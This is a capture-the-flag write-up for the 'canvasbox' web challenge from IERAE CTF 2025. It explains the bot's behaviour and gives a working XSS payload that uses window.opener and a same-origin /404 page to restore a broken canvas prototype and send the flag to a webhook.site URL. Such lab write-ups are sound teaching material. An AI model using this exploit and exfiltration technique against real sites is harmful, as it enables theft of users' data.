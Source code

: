 # Challenge details
Challenge name: canvasbox  
Competition: IERAE CTF 2025  
Category: Web  
Difficulty: Hard  
Points: 279  
Solves: 16  

# Challenge description
The flag is hidden in the canvas. You cannot access it, even with XSS...
Challenge: http://34.146.182.31:3000
Admin bot: http://34.146.19.165:1337

# About the challenge
Unfortunately, I was unable to solve this during the ctf, but I saw this very cool solution so I wanted to document it :)

The admin page allows users to provide a link that the bot will visit, in this case it will be http://web:3000/, which is where the challenge is hosted.

# TL;DR
 1. you make a page -> you give this page to the bot -> the bot visits web:3000 sets the flag there.
 2. web:3000 sets the flag as the canvas.getContext("2d").font = `1px "${flag}"`,breaks its prototypes, deletes window.open and some other weird stuff, the bot then visits your url.
 3. This will cause the bot to open a new web:3000 tab.
 4. Your payload then changes the origin from your attacking page to web:3000/404, and makes a working canvas.
 5. It then fixes the canvas on the web:3000 page.
 6. This is only possible because they are the same origin, and /404 page doesn't have the code that breaks stuff. 
 7. You then send the flag.getContext("2d").font to your webhook

# Source code
```js
    canvas.getContext("2d").font = `1px "${flag}"`;
```
The web page sets the flag under canvas.getContext("2d").font

```js
    const params = new URLSearchParams(location.search);
    const xss = params.get("xss") ?? "console.log(1337)";
    eval(xss);
```
the page also allows you to inject things into the xss parameter in the url which will get evaluated.

```js
try {
    const page1 = await context.newPage();
    await page1.goto(APP_URL, { timeout: 3_000 });
    await page1.evaluate((flag) => {
      localStorage.setItem("flag", flag);
    }, FLAG);
    await sleep(1_000);
    await page1.close();

    const page2 = await context.newPage();
    await page2.goto(url, { timeout: 5_000 });
    await sleep(5_000);
    await page2.close();
  } catch (e) {
    console.error(e);
  }
```
Looking at the code in bot.js, it tells us how the bot behaves.
It will first visit http://web:3000, and set the flag. Then it will visit the url that you gave to it.
BUT its not so simple
```js

delete window.open;
const removeKey = (obj, key) => {
    delete obj[key];
    if (key in obj) {
        Object.defineProperty(obj, key, {});
    }
};
for (const descriptor of Object.values(
    Object.getOwnPropertyDescriptors(window)
)) {
    const value = descriptor.value;
    const prototype = value?.prototype;

    if (prototype instanceof Node || value === DOMParser) {
        // Delete all the properties
        for (const key of Object.getOwnPropertyNames(value)) {
            removeKey(value, key);
        }
        for (const key of Object.getOwnPropertyNames(prototype)) {
            removeKey(prototype, key);
        }
    }
}
```
The web page does some funny stuff and deletes a lot of things, so we have to somehow get past that

## Create your payload + page
```js
<script>
  payload = `
    fetch("https://webhook.site/xxxxx?inner")
    window.opener.location = "http://web:3000/404"
    setTimeout(()=>{
        window.opener.document.write("<canvas id=ff></canvas>")
        Object.setPrototypeOf(flag, window.opener.document.getElementById("ff").__proto__);
        fetch("https://webhook.site/xxxxx?"+flag.getContext("2d").font)
    },1000);
  `
  window.open("http://web:3000/?xss=" + encodeURIComponent(payload))
</script>
<img src="https://webhook.site/xxxxx?ready" /> //this part is
// just to test if your webhook connection is working 
```
## What is going on??
The first step would be to host this page, you can use any hosting service, such as ngrok. Then you pass the url of this page to the bot.

Look at this timeline
| Step | What Happens                              | Who Controls It? |
|------|-------------------------------------------|------------------|
| 1️   | page1 loads http://web:3000               | BOT              |
| 2️   | Flag is stored in localStorage            | BOT              |
| 3️   | page1 is closed                           | BOT              |
| 4️   | page2 loads your page (https://your.exploit.page) | YOU       |
| 5️   | Your page opens a new window back to http://web:3000/?xss=... | YOU |
| 6️   | That window loads the challenge — still has the flag! | YES!!   |
| 7️   | Your payload runs and extracts the flag   | YOU              |


<br>

## Payload
```js
window.open("http://web:3000/?xss=" + encodeURIComponent(payload))
```
This will make the bot open a new tab for web:3000 with your payload
```js
fetch("https://webhook.site/xxxxx?inner")
```
The first line of the payload just alerts your webhook and you that it has connected
```js
window.opener.location = "http://web:3000/404"
```
This is CRUCIAL. window.opener will change the original page location (that had run windows.open). So initially window.opener.location is the page that you made. you change it to http://web:3000/404 so that it is
1. Same origin 
2. Doesn't have the funny restrictions that the page had set
```js
window.opener.document.write("<canvas id=ff></canvas>")
Object.setPrototypeOf(flag, window.opener.document.getElementById("ff").__proto__);
```
| Item                   | Exists Where?              | Purpose                                |
|------------------------|----------------------------|----------------------------------------|
| Canvas with flag       | /?xss=... (challenge page) | Holds the flag in `.font`              |
| Canvas on /404         | Created by you, dynamically| Source of clean `.getContext()`        |
| /404                   | Clean page                 | Supplies a clean, unbroken canvas prototype |
| `Object.setPrototypeOf`| In challenge page          | Swaps broken prototype with clean one  |

```js
fetch("https://webhook.site/xxxxx?"+flag.getContext("2d").font)
```
After you swap it you can just send the font to your webhook





